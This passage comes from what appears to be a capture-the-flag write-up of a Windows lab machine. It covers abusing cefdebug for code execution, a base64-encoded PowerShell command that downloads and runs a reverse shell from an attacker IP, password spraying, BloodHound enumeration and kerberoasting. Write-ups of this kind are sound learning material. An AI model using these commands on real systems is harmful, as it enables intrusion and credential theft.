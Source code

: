 For this part, I gain another reverse shell just to allow smoother exploitation of this vulnerability.<br>
(you can probably skip this step honestly)
![capture-12](capture-12.PNG)
After a **LOT** of enumeration, you will eventually find the Microsoft Visual Studio directory, looking online and you will eventually find `cefdebug.exe`.<br>
https://github.com/taviso/cefdebug
This allows us to attach a debugger to these processes to run local commands.
![capture-13](capture-13.PNG)
**beaware**, these debug ports change, so you have to be very fast at exploiting them. Additionally the ping to my local machine **did not work**.

To exploit this vulnerability, using a small code snippet from the link provided earlier, we can use the following:
```
process.mainModule.require('child_process').exec('calc')
```

but instead of calc, we run a reverse shell.
Because Windows is Windows, we have to encode our reverse shell with little endian.
```
echo "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.3:8080/reverse.ps1')" | iconv -t UTF-16LE | base64 -w 0
```
![capture-15](capture-15.PNG)
What this command does is convert the payload with 16 bit little-endian, without it, the shell will not work.
With this, we can use powershell's `-enc` command to execute the base64 payload.
![capture-16](capture-16.PNG)

## cyork
Once a reverse shell has been established, looking through the inetpub directory, an odd api file can be found.
![capture-17](capture-17.PNG)
Downloading this file to our local machine, we can use `strings -e l`, -e is an encoding method and -l is little-endian 16bit.
With this, we reveal a password.
![capture-18](capture-18.PNG)
Spraying this password, we find that we gain access to the sbauer account.
![capture-19](capture-19.PNG)

## sbauer
After uploading SharpHound, running it and then downloading the zip file, we can use bloodhound to enumerate the domain and users.
![capture-20](capture-20.PNG)

Looking up the sbauer account, we have GenericWrite over the user `jorden`.
This allows us to make the account kerberoast-able.
![capture-21](capture-21.PNG)
Adding a fake SPN, we perform a kerberoast on the account to gain the users hash.
![capture-22](capture-22.PNG)
